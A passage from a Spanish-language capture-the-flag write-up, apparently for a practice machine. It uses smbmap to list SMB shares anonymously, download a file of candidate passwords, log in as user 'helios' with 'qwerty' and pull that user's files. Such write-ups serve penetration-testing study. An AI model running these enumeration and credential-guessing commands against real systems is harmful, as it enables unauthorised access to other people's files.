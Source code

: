 Vamos a listar los recursos compartidos de la maquina:
```
smbmap -H <IP_VICTIMA>
```
![[Pasted image 20250701201307.png]]
Vemos un recurso llamado "Helios personal share", por lo tanto podemos creer que Helios es un usuario potencial del sistema.
Ahora, intentaremos listar de forma recursiva los directorios compartidos, en los cuales tengamos permisos de lectura sin proporcionar credenciales.
```
smbmap -H <IP_VICTIMA> -r anonymous
```
![[Pasted image 20250701202424.png]]
Los archivos que aquí encontremos, nos los descargaremos con el siguiente comando:
```
smbmap -H <IP_VICTIMA> --download anonymous/attention.txt
```
![[Pasted image 20250701202857.png]]

Vemos contraseñas posibles, las cuales usaremos para intentar conectarnos a algun recurso compartido como el usuario Helios:

```
smbmap -H <IP_VICTIMA> -u helios -p qwerty
```
La contraseña que dio resultados es "qwerty"

![[Pasted image 20250701205251.png]]

Ahora vamos a listar de forma recursiva el contenido del recurso compartido "helios"

```
smbmap -H <IP_VICTIMA> -u helios -p qwerty -r helios
```
![[Pasted image 20250701205515.png]]

Vamos a descargarnos todos los archivos del recurso compartido:

```
smbmap -H <IP_VICTIMA> -u helios -p qwerty --download helios/research.txt
smbmap -H <IP_VICTIMA> -u helios -p qwerty --download helios/todo.txt
```

![[Pasted image 20250701210015.png]]

Vemos una ruta /h3l105 muy probablemente del servidor web para continuar con la máquina.